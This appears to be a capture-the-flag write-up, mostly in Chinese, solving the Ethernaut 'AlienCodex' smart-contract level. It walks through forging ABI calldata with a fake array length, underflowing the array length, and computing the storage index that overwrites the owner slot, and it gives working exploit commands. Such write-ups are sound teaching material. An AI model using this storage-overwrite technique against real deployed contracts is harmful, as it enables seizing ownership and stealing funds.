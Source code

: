 ## 0x01 Task

```javascript
pragma solidity ^0.4.24;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact(bytes32[] _firstContactMessage) public {
    assert(_firstContactMessage.length > 2**200);
    contact = true;
  }

  function record(bytes32 _content) contacted public {
  	codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

You've uncovered an Alien contract. Claim ownership to complete the level.

## 0x02 need2know

AlienCodex是继承自Ownable合约的，而在Ownable合约中其实存在变量`_owner`，我们的目标就是要想办法把`_owner`改成自己的地址。

再看到AlienCodex合约里面，很多方法都添加了contacted修饰符，我们也应当把`contact`改成`true`。

看到`make_contact`函数，里面有把`contact`设置为`true`的操作，但是存在限制检查`assert(_firstContactMessage.length > 2**200)`。想了一下2^200基本上在内存中也装不下这么大的东西。

这里要知道：当您调用方法传递数组时，solidity不会根据实际有效负载对数组大小进行检查。

根据Contract ABI，并拿单变量函数`make_contact(bytes32[] _firstContactMessage)`举例，参数应当参照下面的结构：

- 4 bytes of a hash of the signature of the function
- the location of the data part of bytes32[]
- the length of the bytes32[] array
- the actual data.

接下来把他们都计算出来：

`web3.sha3('make_contact(bytes32[])')`

`0x1d3d4c0b6dd3cffa8438b3336ac6e7cd0df521df3bef5370f94efed6411c1a65`

 take first 4 bytes, so `0x1d3d4c0b` our desired result.

偏移就是32bytes

`0x0000000000000000000000000000000000000000000000000000000000000020`

大于2^200的长度

`0x1000000000000000000000000000000000000000000000000000000000000001`

实际数据不用放。

```javascript
sig = web3.sha3("make_contact(bytes32[])").slice(0,10)
// "0x1d3d4c0b"
data1 = "0000000000000000000000000000000000000000000000000000000000000020"
// 除去函数选择器，数组长度的存储从第 0x20 位开始
data2 = "1000000000000000000000000000000000000000000000000000000000000001"
// 数组的长度
await contract.contact()
// false
contract.sendTransaction({data: sig + data1 + data2});
// 发送交易
await contract.contact()
// true
```

`contact`被我们设置成true了以后，能用的函数就变多了。接下来要修改的是Ownable合约中其实存在变量`_owner`，但是看看源码好像没有相关的修改表达式，那就换个想法，从合约内部存储原理入手。

`_owner`被存储在合约的slot0上，而`codex`数组存储在slot1上。因为EVM的优化存储，并且地址类型占据20bytes，bool占据1byte，所以他们都能存储在一个大小为32bytes的slot中。EVM的存储位置计算规则，对于codex数组来说就是`keccak256(bytes32(1))`：

| Slot #           | Variable                                                     |
| ---------------- | ------------------------------------------------------------ |
| 0                | contact bool(1 bytes] & owner address (20 bytes), both fit on one slot |
| 1                | codex.length                                                 |
| keccak256(1)     | codex[0]                                                     |
| keccak256(1) + 1 | codex[1]                                                     |
|                  |                                                              |
| 2²⁵⁶ - 1         | codex[2²⁵⁶ - 1 - uint(keccak256(1))]                         |
| 0                | codex[2²⁵⁶ - 1 - uint(keccak256(1)) + 1] --> can write slot 0! |

```javascript
contract Calc {
    
    bytes32 public one;
    uint public index;
    uint public length;
    bytes32 public lengthBytes;
    
    function getIndex() {
        one = keccak256(bytes32(1));
        index = 2 ** 256 - 1 - uint(one) + 1;
    }
}
```

得到计算结果后：

```javascript
contract.retract() // 先让数组长度溢出
contract.revise('35707666377435648211887908874984608119992236509074197713628505308453184860938', '0x000000000000000000000000899f879df02dc33893c54d6D02A3b2D6bBE144Df', {from:player, gas: 900000});

```



